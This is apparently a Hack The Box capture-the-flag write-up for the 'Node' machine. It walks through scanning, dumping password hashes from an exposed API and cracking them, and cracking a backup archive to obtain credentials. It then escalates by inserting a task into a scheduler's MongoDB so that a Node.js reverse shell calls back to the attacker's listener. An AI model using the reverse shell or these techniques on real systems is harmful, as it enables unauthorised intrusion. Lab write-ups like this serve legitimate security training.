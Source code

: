 ```yaml
---
layout: post
title: Node(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.58


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.58</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 11:09 EST
<br>Nmap scan report for 10.10.10.58
<br>Host is up (0.19s latency).
<br>Not shown: 998 filtered ports
<br>PORT     STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>   open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br>| ssh-hostkey: 
<br>|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
<br>|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
<br>|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (EdDSA)
<br><font color="BB69EC">3000/tcp</font> open  http    <font color="53E100">Node.js Express</font> framework
<br>| hadoop-datanode-info: 
<br>|_  Logs: /login
<br>|_hadoop-jobtracker-info: 
<br>| hadoop-tasktracker-info: 
<br>|_  Logs: /login
<br>|_hbase-master-info: 
<br>|_http-title: MyPlace
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 22/tcp)
<br>HOP RTT       ADDRESS
<br>1   196.72 ms 10.10.14.1
<br>2   196.85 ms 10.10.10.58</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 48.94 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**WEB**
<br>**Port:3000**
![1](https://teckk2.github.io/assets/images/node/1.png)
<br>Open any one profile and check the network section in the Inspect Element, and reload the page and you will see there is a hidden directory **/api/users/mark** where the page is pointing to
![2](https://teckk2.github.io/assets/images/node/2.png)
<br>Open it and you will see the user mark password hash
![3](https://teckk2.github.io/assets/images/node/3.png)
<br>Now remove the user **mark** from the URL and you will see every users password hash in that page
![4](https://teckk2.github.io/assets/images/node/4.png)
<br>Now using online cracking [Tool](https://crackstation.net) crack the password hash,
<br>Username = **myP14ceAdm1nAcc0uNT**
<br>Password = **manchester**
<br>Username = **tom**
<br>Password = **spongebob**
<br>Username = **mark**
<br>Password = **snowflake**
<br>Now with the admin accounts credentials we can login
![5.1](https://teckk2.github.io/assets/images/node/5.1.png)
<br>Download the backup file.
<br>Many people faced issue while downloading that file, So If you are using Mozila than try downloading it from Crome,in many time from Crome also the file is not getting downloading completely so you need to trie couple of times to download it completely. if both the ways didn't work you can copy the File from my [repo](https://github.com/Teckk2/Teck_k2/blob/master/node/myplace.backup), It's a Base64 so you just need to copy and paste to a new file in your system.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file myplace.backup 
<br>myplace.backup: ASCII text, with very long lines, with no line terminators
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat myplace.backup | base64 -d > backup
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file backup 
<br>backup: Zip archive data, at least v1.0 to extract
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>&nbsp;&nbsp;&nbsp;creating: var/www/myplace/
<br>[backup.zip] var/www/myplace/package-lock.json password:</p>

</div>
</font>

<br>The ZIP file is password protected, so to crack it we will use fcrackzip tool.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup.zip 
<br>possible pw found: <font color="ffff00">magicword</font> ()
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mkdir node
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup.zip node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cd node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># ls
<br>backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>[backup.zip] var/www/myplace/package-lock.json password: </p>

</div>
</font>

<br>Using the password **magicword** we unzip the file, and there is lot of files inside it so we have to look everyfile one-by-one
<br>Under /var/www/myplace there is a app.js file which have username and password using which we can login to SSH.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>root@kali:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># ls -la
<br>total 56
<br>drwxr-xr-x  4 root root  4096 Sep  3 08:59 .
<br>drwxr-xr-x  3 root root  4096 Mar  4 02:11 ..
<br>-rw-rw-r--  1 root root  3861 Sep  2  2017 app.html
<br>-rw-rw-r--  1 root root  8058 Sep  3 08:23 app.js
<br>drwxr-xr-x 69 root root  4096 Sep  1  2017 node_modules
<br>-rw-rw-r--  1 root root   283 Sep  1  2017 package.json
<br>-rw-r--r--  1 root root 21264 Sep  1  2017 package-lock.json
<br>drwxrwxr-x  6 root root  4096 Sep  1  2017 static
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># cat app.js </p>

<p>const express&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express');
<br>const session&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express-session');
<br>const bodyParser&nbsp;&nbsp;= require('body-parser');
<br>const crypto&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('crypto');
<br>const MongoClient = require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const path&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require("path");
<br>const spawn&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').spawn;
<br>const app&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= express();
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
<br>const backup_key&nbsp;&nbsp;= '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
<br>....
<br>....
<br>....
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># </p>

</div>
</font>

<br>Username : **mark**
<br>Password : **5AYRft73VtFpc84k**

<br>**SSH**
![6](https://teckk2.github.io/assets/images/node/6.JPG)
<br>After enumerating for some time I found another app.js file in /var/scheduler which is has root access and which is executing the tasks command and executing doc.cmd file.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ ls -la
<br>total 28
<br>drwxr-xr-x  3 root root 4096 Sep  3 14:24 .
<br>drwxr-xr-x 15 root root 4096 Sep  3 14:06 ..
<br>-rw-rw-r--  1 root root  910 Sep  3 15:24 app.js
<br>drwxr-xr-x 19 root root 4096 Sep  3 14:24 node_modules
<br>-rw-rw-r--  1 root root  176 Sep  3 14:08 package.json
<br>-rw-r--r--  1 root root 4709 Sep  3 14:24 package-lock.json
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ cat app.js 
<br>const exec&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').exec;
<br>const MongoClient&nbsp;= require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';</p>

<p>MongoClient.connect(url, function(error, db) {
<br>&nbsp;&nbsp;if (error || !db) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;console.log('[!] Failed to connect to mongodb');
<br>&nbsp;&nbsp;&nbsp;&nbsp;return;
<br>&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;setInterval(function () {
<br>&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').find().toArray(function (error, docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (!error && docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docs.forEach(function (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Executing task ' + doc._id + '...');
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec(doc.cmd);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;else if (error) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Something went wrong: ' + error);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;}, 30000);</p>

<p>});
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$</p>

</div>
</font>

<br>**Privilege Escalation**
<br>Now we have to create a new cmd.js file inside /tmp folder and put nodejs reverse shell inside it and we have to edit the task and edit the path to our new file
<br>[*Node.js reverse shell*](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ nano cmd.js
<br>Unable to create directory /home/mark/.nano: Permission denied
<br>It is required for saving/loading search history or cursor positions.</p>

<p>Press Enter to continue</p>

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ cat cmd.js 
<br>(function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;var net = require("net"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cp = require("child_process"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh = cp.spawn("/bin/sh", []);
<br>&nbsp;&nbsp;&nbsp;&nbsp;var client = new net.Socket();
<br>&nbsp;&nbsp;&nbsp;&nbsp;client.connect(4455, "10.10.14.10", function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;client.pipe(sh.stdin);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stdout.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stderr.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;return /a/; // Prevents the Node.js application form crashing
<br>})();
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ chmod +x cmd.js 
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ mongo
<br>MongoDB shell version: 3.2.16
<br>connecting to: test
<br>> var mydb = connect('mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler')
<br>connecting to: mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler
<br>> mydb.tasks.insert({cmd: "/usr/bin/node /tmp/cmd.js"})
<br>WriteResult({ "nInserted" : 1 })
<br>> </p>

</div>
</font>

<br>make sure to set up the listener before you run the command in mongo.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.58] 47440
<br>/bin/bash -i
<br>bash: cannot set terminal process group (1225): Inappropriate ioctl for device
<br>bash: no job control in this shell
<br>To run a command as administrator (user "root"), use "sudo <command>".
<br>See "man sudo_root" for details.</p>

<p>tom@node:/$ id
<br>id
<br>uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
<br>tom@node:/$ cd /home 
<br>cd /home
<br>tom@node:/home$ ls
<br>ls
<br>frank
<br>mark
<br>tom
<br>tom@node:/home$ cd tom
<br>cd tom
<br>tom@node:~$ cat user.txt
<br>cat user.txt
<br><font color="53E100">********************************</font>
<br>tom@node:~$ </p>

</div>
</font>







